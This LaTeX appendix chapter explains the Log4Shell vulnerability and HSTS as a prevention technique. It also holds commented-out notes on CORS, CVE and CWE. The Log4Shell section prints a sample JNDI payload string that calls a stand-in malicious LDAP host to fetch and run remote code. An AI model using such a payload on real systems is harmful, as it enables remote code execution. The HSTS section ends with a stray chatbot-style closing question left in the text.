\chapter{Attack Pattern, Techniques and Prevention Methods}
\newpage
\section{Attacks}
\subsection{Common Attack Techinques}
\begin{itemize}
    \item RCE - Remote Code Execution
    \item Log4J
    \begin{itemize}
        \item The Log4j vulnerability (Log4Shell) works through JNDI (Java Naming and Directory Interface) injection. Here's how it works:
        \item Log4j had a feature that would interpret strings containing "\${jndi:}" as a command to fetch and execute code from a remote server.
        \item Attackers could exploit this by getting Log4j to log a specially crafted string like: \${jndi:ldap://malicious-server.com/payload}
        \item Interpret the JNDI lookup string
        \item Make a connection to the attacker's LDAP server
        \item Download and execute the Java code hosted there
        \item This code would run with the same privileges as the Java application
        \item It required almost no prerequisites to exploit
        \item The malicious string could be passed through many common fields (user agent strings, login forms, etc.)
        \item Log4j was extremely widespread in Java applications
        \item Getting the system to log the string was enough to trigger the exploit
        \begin{center}
            
\includegraphics[scale=0.5]{resources/15-appendix-log4j.png}
        \end{center}
    \end{itemize}
\end{itemize}


%\subsection{Patterns}
%\subsection{Common Attack Pattern}
%\begin{itemize}
%   \item RCE - Remote Code Execution
%   \item foobar
%\end{itemize}
%
%\subsection{Prevention}
%\subsection{Common Prevention Techniques}
%\begin{itemize}
%   \item CORS
%   \begin{itemize}
%    \tightlist
%    \item request is done but prevents the browser from reading and showing you the content
%    \item for the attacker still good if data exfiltration
%   \end{itemize}
%\end{itemize}
%
%\subsection{Standards and Tools}
%\subsection{Organizations and Standards}
%\begin{itemize}
%    \item CVE
%    \begin{itemize}
%        \tightlist
%        \item CVE is a standardized list of known cybersecurity vulnerabilities, where each gets a unique ID (like CVE-2021-44228) for tracking and reference purposes.
%        \item The system is run by MITRE Corporation and serves as the industry standard database for sharing information about security vulnerabilities across organizations.
%        \begin{center}
%            
\includegraphics[scale=0.5]{resources/15-appendix-rce.png}
%        \end{center}
%    \end{itemize}
%    \item CWE
%    \begin{itemize}
%        \item CWE (Common Weakness Enumeration) is a categorized list of software and hardware security weaknesses - essentially a dictionary of common security flaws that can occur in code or system architecture.
%        \item Unlike CVE which tracks specific instances of vulnerabilities, CWE describes the underlying types of mistakes that can lead to vulnerabilities. For example, CWE-79 refers to Cross-Site Scripting (XSS) as a general category of weakness.
%    \end{itemize}  
%\end{itemize}
%
%\subsection{Tools}
%\begin{itemize}
%    \item Velociraptor
%\end{itemize}
\subsection{Prevention Techniques}
\subsubsection{HSTS:}
HSTS (HTTP Strict Transport Security) is a web security policy mechanism that helps protect websites against protocol downgrade attacks and cookie hijacking. Here's a detailed explanation:

\textbf{Basic Concept}

HSTS is a security header that forces web browsers to only interact with a website using secure HTTPS connections, automatically rejecting any HTTP connections. Once a browser receives the HSTS policy from a website, it will enforce this secure connection requirement for a specified period.

\textbf{How It Works}
\begin{itemize}
    \item Website sends HSTS header in its HTTPS response
    \item Header contains max-age directive (how long to enforce HTTPS)
    \item Browser stores this information
    \item All future requests are automatically upgraded to HTTPS
    \item Blocks access attempts over insecure HTTP
\end{itemize}

\textbf{Example Header}
```
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```
- max-age: Duration in seconds to remember the HSTS policy
- includeSubDomains: Apply to all subdomains
- preload: Include in browser's preload list

\textbf{Key Benefits}
\begin{itemize}
    \item Prevents SSL stripping attacks
    \item Blocks protocol downgrade attempts
    \item Protects against cookie hijacking
    \item Eliminates user exposure to HTTP
    \item Reduces risk of MITM attacks
\end{itemize}

\textbf{HSTS Preloading}

An additional security measure where domains are hardcoded into browsers as HTTPS-only:
\begin{itemize}
    \item Domains submit to browser preload lists
    \item Browser enforces HTTPS before first contact
    \item Provides protection on first visit
    \item Permanent until removed from preload list
\end{itemize}

Would you like me to elaborate on any of these aspects or explain how to implement HSTS in different web servers?